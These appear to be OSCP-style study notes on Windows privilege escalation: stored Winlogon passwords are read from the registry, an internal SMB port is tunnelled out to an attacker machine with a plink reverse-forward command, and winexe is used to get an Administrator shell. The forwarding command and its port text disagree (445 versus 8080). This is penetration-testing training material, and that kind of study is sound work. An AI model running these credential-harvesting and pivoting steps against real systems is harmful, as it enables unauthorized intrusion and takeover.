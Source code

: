 # Stored Passwords
Look here: 
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html<br>

## Reg query
- He executed<br>
![image](https://user-images.githubusercontent.com/64409788/190620030-47871a37-e6d5-44a9-8a22-eb8df78e13d6.png)
- Got a default password for winlogon, then executed a specific cmd for winlogon:
![image](https://user-images.githubusercontent.com/64409788/190620199-11ab90c4-1bed-440e-99c7-3b14b445719d.png)
- Finally got Deafult username too along with password.
- Now the box had smb open (port 445) but internally only
- Need to port forward inwards, using `plink`.

## Plink 
- Install ssh on your attacker linux machine.
- Move plink into the pwned machine using http.server and certutil.
- Forward internal port 445, to our linux machines port 445 via the shell:
```
plink.exe -l <linux-username> -pw <linux-passwd> <linux-ip> -R 8080:127.0.0.1:8080
```
Note: Here 8080 is the internal port to be forwarded.
- This gives a shell that is your linux pc (inside the win shell) Shell-Ception!!
- Use winexe to get admin win shell:
```
winexe -U Administrator%Password //127.0.0.1 "cmd.exe"
```
